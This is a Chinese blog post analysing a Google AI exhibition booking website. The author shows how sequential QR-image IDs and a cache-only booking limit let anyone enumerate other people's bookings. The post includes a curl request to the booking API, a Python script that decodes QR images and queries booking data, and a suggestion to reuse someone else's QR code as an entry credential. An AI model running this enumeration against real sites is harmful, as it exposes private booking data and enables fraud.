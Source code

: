 ```yaml
---
layout: post
title: Google AI 展览预订网站分析
tags: [google, ai, crack]
categories:
  - 技术互联
---
```


### 起因

　　Google 在上海的九月下旬到十月上旬有一个 AI 展览，我得知这个消息的时候已经很晚了，由于国庆假期已经有安排了，预订网站上的可预订时间不多了，而且基本都和我的时间冲突了。我就想着能不能看一下网站源码，看看能不能从网站代码上面得到点有用的东西。

### 源码分析

- 预订页面

　　打开 Chrome 的 Developer tools 看了一下源码，还是比较简单的。而且看得出来写得比较一般，应该是个新手。页面也是前后端分离的，主要的逻辑集中在一段 Ajax 请求代码上，摘抄如下：

```javascript
//生成二维码
function btnData(val_id,opt2,channel){
	var ifData={"fieldId":val_id,"subscribePeople":opt2};
	$.ajax({
		url:"/h5/judgePeople.do",
		type:"post",
		async:true,
		data:ifData,//data数据为空-----需要页面上的数据，暂时没有
		dataType: 'json',
		success:function(data){
			if(data.code==200){//成功的
				var data_json={"fieldId":val_id,"subscribePeople":opt2,"channel":channel};
				$.ajax({
					contentType: 'application/json;charset=utf-8',
					url:"/h5/ajax/addsub.do",
					type:"post",
					data:JSON.stringify(data_json),//data数据为空-----需要页面上的数据，暂时没有
					dataType: 'json',
					success:function(data){
						if(data.code==200){//成功的
							location.href="/h5/qrcode.do?lt_d="+data.data.data.jiami+"&sources="+data.data.data.id;
						}else{
							//tanChuang(data.data.data);
							storageTime=get_cache("StorageTime");
							set_cache("StorageTime",truncate(storageTime));
							location.href="/h5/closesen2.do?channel="+loginChannel;
						}
					},error:function(){
						storageTime=get_cache("StorageTime");
						set_cache("StorageTime",truncate(storageTime));
					}
				});
			}else{
				storageTime=get_cache("StorageTime");
				set_cache("StorageTime",truncate(storageTime));
				tanChuang("该时段仅剩"+data.data.data.sencePeople+"个名额");
			}
		},error:function(){
			storageTime=get_cache("StorageTime");
			set_cache("StorageTime",truncate(storageTime));
		}
	});
}
```

　　其中第一个接口 `/h5/judgePeople.do` 主要是判断选定时段的可预订人数是否满足填写的预订人数。而且发现这里判断是否多次预订的逻辑是用本地 Cache 实现的，就算不懂代码的人，换个浏览器也可以突破限制。
　　第二个接口 `/h5/ajax/addsub.do` 才是主要提交预订信息的接口。因为判断能否预订当前时间段是由服务器端判定的，所以我测试了几个接口都没有成功。

```bash
curl -X POST \
  http://ai.cheerue.com/h5/ajax/addsub.do \
  -H 'Content-Type: application/json' \
  -d '{"fieldId": "167", "subscribePeople": "1"}'
```

　　如果第二个接口调用成功的话，会重新定向到另一个显示的二维码的页面，其中 url 参数会带入预订成功和生成的加密 key，这边的变量直接使用的拼音，看了都想笑，太低级了。

- 二维码页面

　　这个页面是要有刚刚生成的唯一加密 key 和 ID 匹配的，如果随意输入一个参数的话，并不会显示二维码。不过看了一下页面源码，里面找到了调用二维码图片的接口，一开始我以为这个接口也会加密，但仔细发现这个接口，在验证成功是已经预订的 key 之后，直接在页面显示图片。而图片的链接仅仅是使用 ID 拼接的，例如： `img-zxing/10231zxing.png`。我们随便获取一个图片识别一下发现二维码里面的内容就是刚刚 url 里的参数。

　　到这一步，基本就算成功了，剩下的就是数据抓取分析了。

### 数据爬取

　　我们将以二维码图片为突破口，ID 又是递增的，只要循环调用就可以获取所有订阅数据了。首先我们找一个解析二维码的 python 库，这个 GitHub 随便一搜一大堆，我选中了这个 [qrreader](https://github.com/ewino/qreader)。安装成功后，获取预订数据的 python 代码如下：

```python
#!/usr/bin/env python3
# coding: utf-8

from io import BytesIO
import requests
import qreader

url = 'http://ai.cheerue.com/img-zxing/42zxing.png'
try:
    res = requests.get(url)
    data = qreader.read(BytesIO(res.content))
    url = 'http://ai.cheerue.com/h5/ajax/querysubscribe.do?{0}'.format(data)
    ret = requests.get(url)
    print(ret.content.decode())
except Exception as e:
    print(e)
```

　　返回结果如下：

```
{"code":200,"data":{"data":{"sqltime":"09月29日 10:00","subscribePeople":1,"id":42}},"messageData":"处理成功！"}"}
```

　　剩下就是脚本循环调用就可以了。在数据基本全部跑完之后，我们随便找一个合适时间生成的二维码就可以作为预订的凭证了，不过有可能和其他人冲突。另外，我们可以用 `jq` 简单计算一下这次 AI 展览会的预订人数：

```bash
cat data.txt  | jq '.data.data.subscribePeople' | jq -s add
```

### 结论

　　到这篇文章发布，会展已经结束，不会影响展览的正常举办。不过还是希望主办方在选择软件外包的时候能够选择一个靠谱点的公司。这个主要的漏洞可以通过加密接口来修复，但是这个网站源码，看起来确实不太能忍受，很有可能就是一个刚刚从培训班出来的人写的，还不如一个软件学院普通学生的水平。
